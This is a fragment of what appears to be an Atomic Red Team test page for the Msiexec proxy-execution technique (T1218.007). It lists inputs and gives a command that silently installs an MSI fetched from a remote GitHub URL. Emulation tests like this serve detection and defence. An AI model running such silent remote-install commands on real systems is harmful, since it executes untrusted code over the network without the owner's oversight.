 **auto_generated_guid:** 44a4bedf-ffe3-452e-bee4-6925ab125662

#### Inputs:

| Name        | Description         | Type   | Default Value                                                                                         |
| ----------- | ------------------- | ------ | ----------------------------------------------------------------------------------------------------- |
| msi_payload | MSI file to execute | string | https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.007/bin/T1218.007_JScript.msi |
| msi_exe     | MSIExec File Path   | path   | c:&#92;windows&#92;system32&#92;msiexec.exe                                                           |

#### Attack Commands: Run with `command_prompt`!

```cmd
#{msi_exe} /q /i "#{msi_payload}"
```

<br/>
